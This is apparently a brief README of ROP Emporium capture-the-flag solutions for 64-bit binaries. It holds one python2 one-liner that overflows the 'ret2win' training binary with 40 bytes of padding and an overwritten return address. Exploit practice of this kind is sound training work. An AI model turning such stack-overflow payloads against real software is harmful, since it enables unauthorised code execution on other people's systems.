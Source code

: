 

### target

    https://ropemporium.com/ (64bit binaries)

### ret2win

    python2 -c 'import struct; print "A"*40 + struct.pack("<Q", 0x0000000000400811)' | ./ret2win
